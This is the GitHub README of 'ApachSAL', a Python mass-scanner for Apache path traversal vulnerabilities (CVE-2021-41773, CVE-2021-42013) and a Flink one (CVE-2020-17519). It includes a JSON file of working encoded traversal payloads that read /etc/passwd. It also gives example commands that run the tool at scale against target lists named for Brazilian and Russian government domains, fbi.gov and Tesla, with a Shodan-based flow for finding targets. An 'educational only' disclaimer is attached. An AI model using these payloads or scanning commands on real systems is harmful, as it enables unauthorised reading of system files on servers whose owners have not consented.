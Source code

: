 <p align="center">
<a href="https://github.com/imhunterand/ApachSAL/">
  <img src="assets/prints/banner.png" width="700" alt="Banner Apache Path Traversal" />
</a>
</p>
<h1 align="center">
  Apache Path Traversal 
</h1> 
  
<img alt="GPL License" src="https://img.shields.io/github/license/imhunterand/ApachSAL?color=blue">
  
<img alt="GitHub code size in bytes" src="https://img.shields.io/github/languages/code-size/imhunterand/ApachSAL">
 
<img alt="Python 3.8" src="https://img.shields.io/badge/python-3.8-yellow.svg">
<img alt="Supported_OS Linux orange" src="https://img.shields.io/badge/Supported_OS-Linux-orange.svg">
<img alt="Supported OS Mac" src="https://img.shields.io/badge/Supported_OS-Mac-orange.svg">
</p>  

### Path traversal (software bug) 
A path traversal attack (also known as directory traversal) aims to access files and directories that are stored outside the web root folder. By manipulating variables that reference files with “dot-dot-slash (../)” sequences and its variations or by using absolute file paths, it may be possible to access arbitrary files and directories stored on file system including application source code or configuration and critical system files. It should be noted that access to files is limited by system operational access control (such as in the case of locked or in-use files on the Microsoft Windows operating system).

## Disclaimer 
```
This or previous program is for Educational purpose ONLY. Do not use it without permission. 
The usual disclaimer applies, especially the fact that me (Imhunterand) is not liable for any 
damages caused by direct or indirect use of the information or functionality provided by these 
programs. The author or any Internet provider bears NO responsibility for content or misuse 
of these programs or any derivatives thereof. By using these programs you accept the fact 
that any damage (dataloss, system crash, system compromise, etc.) caused by the use of these 
programs is not Imhunterand responsibility.
``` 


### This script checks for vulnerabilities
- [CVE-2021-41773  ](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41773)
- [CVE-2021-42013](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-42013)
- [CVE-2020-17519](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-42013)


## Commands
```bash
python main.py --file gov.br.txt  --thread 15
python main.py --file tesla.txt  --ssl
python main.py --range 192.168.15.1,192.168.15.100 --thread 30 
python main.py --file fbi.gov.txt  --thread 15 --timeout 3 
python main.py --file gov.ru.txt  --debug
```
## Screenshots
![Screenshot](/assets/prints/print01.png)
![Screenshot](/assets/prints/print02.png)


## Flow to generate targets
![Screenshot](/assets/prints/print03.jpg)

## Help
```bash
python main.py --help
```
 
```properties

                                   .,,
                                  (=\/\
                                   \=\/\
                                    \=\/\
                                     `=\/
                                        \
            TRAVERSAL [ APACHE ]
 ▄▄▄       ██▓███   ▄▄▄       ▄████▄   ██░ ██   ██████  ▄▄▄       ██▓
▒████▄    ▓██░  ██▒▒████▄    ▒██▀ ▀█  ▓██░ ██▒▒██    ▒ ▒████▄    ▓██▒
▒██  ▀█▄  ▓██░ ██▓▒▒██  ▀█▄  ▒▓█    ▄ ▒██▀▀██░░ ▓██▄   ▒██  ▀█▄  ▒██░
░██▄▄▄▄██ ▒██▄█▓▒ ▒░██▄▄▄▄██ ▒▓▓▄ ▄██▒░▓█ ░██   ▒   ██▒░██▄▄▄▄██ ▒██░
 ▓█   ▓██▒▒██▒ ░  ░ ▓█   ▓██▒▒ ▓███▀ ░░▓█▒░██▓▒██████▒▒ ▓█   ▓██▒░██████▒
 ▒▒   ▓▒█░▒▓▒░ ░  ░ ▒▒   ▓▒█░░ ░▒ ▒  ░ ▒ ░░▒░▒▒ ▒▓▒ ▒ ░ ▒▒   ▓▒█░░ ▒░▓  ░
  ▒   ▒▒ ░░▒ ░       ▒   ▒▒ ░  ░  ▒    ▒ ░▒░ ░░ ░▒  ░ ░  ▒   ▒▒ ░░ ░ ▒  ░
  ░   ▒   ░░         ░   ▒   ░         ░  ░░ ░░  ░  ░    ░   ▒     ░ ░
      ░  ░               ░  ░░ ░       ░  ░  ░      ░        ░  ░    ░  ░
                             ░


                      By: imhunterand /labsbots.com/
                      https://twitter.com/imhunterand
                      https://github.com/imhunterand/                                                                     
         
usage: tool [-h] [--file <ips.txt>] [--range <ip-start>,<ip-end>]
            [--thread <20>] [--ssl] [--timeout <5>] [--debug]

[!] Check: CVE-2021-41773, CVE-2021-42013, CVE-2020-17519
[!] File exploits: /assets/exploits.json
[!] Output: output/vuln.txt

python main.py --file gov.br.txt  --thread 15
python main.py --file tesla.txt  --ssl
python main.py --range 192.168.15.1,192.168.15.100 --thread 30 
python main.py --file fbi.gov.txt  --thread 15 --timeout 3 
python main.py --file gov.ru.txt  --debug

optional arguments:
  -h, --help            show this help message and exit
  --file <ips.txt>      Input your target host lists
  --range <ip-start>,<ip-end>
                        Set range IP Eg.: 192.168.15.1,192.168.15.100
  --thread <20>, -t <20>
                        Eg. 20
  --ssl                 Enable request with SSL
  --timeout <5>         Set connection timeout
  --debug, -d           Enable debug mode

```

## Tree
```properties
.
├── assets
│   ├── autor.json
│   ├── config.json
│   ├── exploits.json
│   └── prints
│       ├── banner.png
│       ├── print01.png
│       └── print02.png
├── LICENSE
├── main.py
├── modules
│   ├── banner_mrclw.py
│   ├── color_mrclw.py
│   ├── debug_mrclw.py
│   ├── file_mrclw.py
│   ├── __init__.py
│   ├── request_mrclw.py
│   ├── shodan_mrclw.py
│   └── thread_mrclw.py
├── output
└── README.md
```

## File exploit
> assets/exploits.json 
```json
{
    "CVE-2021-41773": "/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd",
    "CVE-2021-42013-0": "/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/etc/passwd",
    "CVE-2021-42013-1": "/cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/etc/passwd",
    "CVE-2021-42013-3": "/cgi-bin/.%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/etc/passwd",
    "CVE-2021-42013-4":"/cgi-bin/%25%25%25%2e/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/etc/passwd",
    "CVE-2020-17519-0":"/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd",
    "CVE-2020-17519-1":"/cgi-bin/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd"
}
```

[![Star History Chart](https://api.star-history.com/svg?repos=imhunterand/ApachSAL&type=Date)](https://star-history.com/#imhunterand/ApachSAL&Date)



### Ref.

- https://owasp.org/www-community/attacks/Path_Traversal
- https://appcheck-ng.com/apache-path-traversal-vulnerability-cve-2021-41773/
- https://www.exploit-db.com/exploits/50383
- https://www.exploit-db.com/exploits/50406
- https://www.exploit-db.com/exploits/49398
- https://owasp.org/www-community/attacks/Path_Traversal


